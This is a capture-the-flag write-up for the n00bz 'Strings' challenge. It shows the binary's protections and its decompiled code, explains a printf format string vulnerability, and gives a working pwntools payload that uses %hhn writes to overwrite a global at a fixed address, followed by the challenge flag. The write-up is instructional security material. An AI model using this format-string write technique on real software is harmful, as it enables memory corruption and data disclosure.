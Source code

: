 # **Strings**
TL;DR 2 in 1 format string vulnerability

# Executable
Checksec :
```
[*] '/home/skuuk/n00bz/strings'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
Ghidra decompilation :
```C
void main(EVP_PKEY_CTX *param_1)

{
  long in_FS_OFFSET;
  char local_78 [104];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  init(param_1);
  puts("Do you love strings? ");
  fgets(local_78,100,stdin);
  printf(local_78);
  main2();
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}

void main2(void)

{
  FILE *__stream;
  long in_FS_OFFSET;
  char local_38 [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  __stream = fopen("flag.txt","r");
  fgets(local_38,0x28,__stream);
  printf(fake_flag);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

# Vulnerability
The vulnerability is a textbook format string, with no escaping of user input : 
```C
fgets(local_78,100,stdin);
printf(local_78);
```
There are many possibilities from there.

I decided to overwrite `fake_flag`, since it's in writeable memory and its address is known (no PIE), so as to print `local_38` which contains the actual flag.

This is achieved by overwriting bytes of `fake_flag` with a `%s` format specifier: as can be seen in gdb, when calling `printf(fake_flag)`, `rsi` holds the true flag !

# Exploit
```python
io = start()
io.sendline(b"%37c%9$hhn%78c%10$hhnPPP" + p64(0x404060) + p64(0x404061))
io.interactive()
```
Essentially we craft our payload to write a number of characters corresponding to `%`(37 in ascii) and to `s`(115=37+78 in ascii), and so that these counts are stored in fake_flag (which is at address `0x404060`)
- The buffer holding our input can be found on the stack. 
- It corresponds to the 6th (starting from 0) argument sent to printf (you can figure this out by experimenting with format specifiers or in gdb)
- `PPP` is used to align our payload
- The adresses at the end of the payload are arguments 9 and 10
- prefixing a format specifier by `X$`, where `X` is a number, allows to specify the `X`th argument is used by the current format specifier
- The `n` format specifier writes to the location pointed by the current argument the number of bytes printed until now by the current `printf` as an int (4 bytes)
- With `hhn`, we write the number of bytes printed until now by the current `printf` as a single byte
- `Xc` where `X` is a number, writes `X` times the current argument as a char.

# Resources
I looked at the following article as a refresher on format strings attacks:
https://ir0nstone.gitbook.io/notes/types/stack/format-string

For more info about format specifiers, look at the man page of printf :
```
$ man 3 printf
```


# Flag
```
n00bz{f0rm4t_5tr1ng5_4r3_th3_b3s7!!!!!}
```
